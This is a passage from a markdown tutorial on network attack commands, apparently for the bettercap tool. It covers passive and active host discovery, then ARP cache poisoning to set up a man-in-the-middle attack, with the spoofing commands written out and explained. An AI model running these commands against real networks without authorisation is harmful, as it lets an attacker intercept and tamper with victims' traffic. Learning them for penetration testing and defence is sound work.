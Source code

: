 3. **Show Network Information**:
   ```bash
   net.recon on
   net.show
   ```
   - **Explanation**: `net.recon on` turns on network reconnaissance mode, which passively captures information about the network and shows it using the `net.show` command.

---

### **Network Scanning and Host Discovery**

1. **Enable Network Probing**:
   ```bash
   net.probe on
   ```
   - **Explanation**: Sends probe packets to actively discover devices on the network.

2. **Show Discovered Hosts**:
   ```bash
   net.show
   ```
   - **Explanation**: Displays a list of hosts discovered on the network, including their IP addresses, MAC addresses, and vendor information.

3. **Start Network Reconnaissance**:
   ```bash
   net.recon on
   ```
   - **Explanation**: Passively listens to the network traffic to gather information on the hosts connected without sending probe packets.

4. **Disable Network Probing**:
   ```bash
   net.probe off
   ```

---

### **ARP Spoofing for MITM Attack**

ARP spoofing (ARP cache poisoning) allows an attacker to impersonate another device on the network, such as the router, by sending forged ARP packets. This enables a Man-in-the-Middle (MITM) attack where all traffic between the victim and the router is intercepted.

1. **Enable ARP Spoofing**:
   ```bash
   set arp.spoof.targets <target_ip>
   set arp.spoof.fullduplex true
   arp.spoof on
   ```
   - **Explanation**: 
     - `arp.spoof.targets <target_ip>`: Defines the target device you want to spoof (e.g., `192.168.1.10`).
     - `arp.spoof.fullduplex true`: Enables full-duplex mode, meaning both the victim and the gateway will be spoofed.
     - `arp.spoof on`: Starts the ARP spoofing attack.

